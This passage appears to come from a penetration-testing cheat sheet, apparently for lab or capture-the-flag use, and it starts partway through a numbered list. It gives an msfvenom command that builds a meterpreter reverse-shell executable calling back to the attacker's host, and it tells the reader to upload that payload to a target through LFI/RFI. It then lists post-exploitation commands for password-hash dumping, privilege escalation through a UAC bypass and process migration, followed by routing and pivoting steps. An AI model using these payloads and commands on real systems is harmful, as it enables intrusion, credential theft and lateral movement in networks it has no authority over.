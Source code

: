 3.  Create a matching meterpreter-based executable using msfvenom

```
msfvenon -p linux/x64/meterpreter_reverse_tcp lhost=<MY IP> lport=<PORT> -f elf -o meter
```

4.  Upload the payload to target (e.g LFI/RFI)

## Meterpreter Useful Commands

    sysinfo
    background
    execute
    getuid
    hashdump
    ipconfig
    ifconfig
    migrate
    getpid
    ps
    #Display processes with only system privileges
    ps -U SYSTEM
    migrate -N <process>
    search
    shell
    screenshot
    route #check routing information
    getsystem #in case of error we have to bypass UAC
    use exploit/windows/local/bypassuac
    
    # Dump Password Database
    use post/windows/gather/hashdump

## Routing and Pivoting

Check your routing tables using these commands:

    ip route #Checking defined routes in Linux
    route #Checking defined routes in Linux
    route print #Checking defined routes in Windows

In order to add routes to your routing tables, you'll need to have admin permissions. Be sure to switch to root or use `sudo` before proceeding. Use these commands to add routes:

    ip route add <subnet> via <default gateway>
    ip route add 192.168.222.0/24 via 10.172.24.1 #10.172.24.1 is gateway for subnet 192.168.222.0/24

After adding a new route, check your routing tables to ensure the new route is saved.

### Meterpreter Autoroute for Pivoting

The easiest way I’ve found to pivot is by using the Meterpreter shell’s autoroute command. Keep in mind you can only do this if you have a Meterpreter session running on the exploited machine, otherwise, you’ll have to pivot manually. John Hammond recommends using plink.exe (a command-line version of PuTTY SSH client), but we really don’t need to.
